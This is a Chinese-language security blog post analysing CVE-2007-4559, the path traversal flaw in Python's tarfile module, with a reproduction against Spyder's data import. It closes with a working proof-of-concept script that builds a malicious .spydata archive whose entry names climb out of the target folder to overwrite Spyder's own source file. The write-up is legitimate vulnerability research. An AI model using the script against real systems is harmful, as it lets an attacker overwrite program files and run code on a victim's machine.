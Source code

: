 ```yaml
---
title: CVE-2007-4559原理及复现
date: 2022-09-27 00:58:37
author: repoog
excerpt: 最近有安全研究人员爆出2007年的CVE-2007-4559漏洞没有被修复，这个漏洞影响到了Python的tarfile模块，可以造成系统文件的任意读取和写入。本文从原理和利用角度介绍和分析该漏洞。
comments: true
tags:
  - CVE-2007-4559
  - Python
  - tarfile
  - 漏洞分析
categories:
  - 软件安全
---
```


2022年9月21日，Trellix（McAfee Enterprise和FireEye合并之后的新公司）的安全研究人员发现早在2007年就披露的漏洞CVE-2007-4559依然没有被修复（https://mail.python.org/pipermail/python-dev/2007-August/074290.html ），该漏洞影响到Python的tarfile模块，可造成系统文件的任意读取和写入。当时的漏洞被披露后，官方采取的做法是在编译过程中给出警告提示，说明可能存在从未信任的来源中解压文档，之后便关闭了漏洞。

![cve-2007-4559](images/2022/09/cve-2007-4559-warning.jpg 'cve-2007-4559')

经过Trellix研究人员对于GitHub上所有引用tarfile模块的项目分析，在588840个项目中都有“import tarfile”的调用声明，其中61%存在CVE-2007-4559漏洞，即受影响的项目有将近36万个项目。

CVE-2007-4559的基本原理与CVE-2001-1267类似，当使用tar打包一个包含“../../../../../etc/passwd”，并用管理员权限解包时，/etc/passwd文件会被覆盖，同理使用文件链接也可以产生同样的效果。

CVE-2007-4559的漏洞源自tarfile模块TarInfo类的extract方法（https://github.com/python/cpython/blob/3.10/Lib/tarfile.py#L2100 ）：

``` Python
……
        try:
            self._extract_member(tarinfo, os.path.join(path, tarinfo.name),
                                 set_attrs=set_attrs,
                                 numeric_owner=numeric_owner)
……
```

TarInfo类是tar文件包中用于记录文件信息的类，上述代码中的tarinfo.name即是文件名称，\_extract\_member方法根据传入的文件路径、名称、属性、权限将文件写入系统。另外，extractall方法也调用了extract方法，因此也受到影响。

Trellix研究人员用受影响的软件Spyder呈现了该漏洞的影响，笔者复现了该漏洞：

![漏洞复现](images/2022/09/CVE-2007-4559.png '漏洞复现')

Spyder右侧操作框的Variable Explorer有一个Import Data功能，可以导入.spydata文件，该文件实际上是tar文件，使用恶意构造的tar包导入虽然可以成功但会报导入错误。因此，需要手动添加一条记录并导出.pickle文件，将该文件和恶意名称的文件名打包为.spydata文件导入。

最终的tar包生成脚本如下：

``` Python
import tarfile

def change_name(tarinfo):
    tarinfo.name = "../../Programs/Spyder/pkgs/spyder/app/" + tarinfo.name
    return tarinfo

with tarfile.open("exploit.spydata", "w:xz") as tar:
    tar.add("mainwindow.py", filter=change_name)
    tar.add("sample.pickle")
```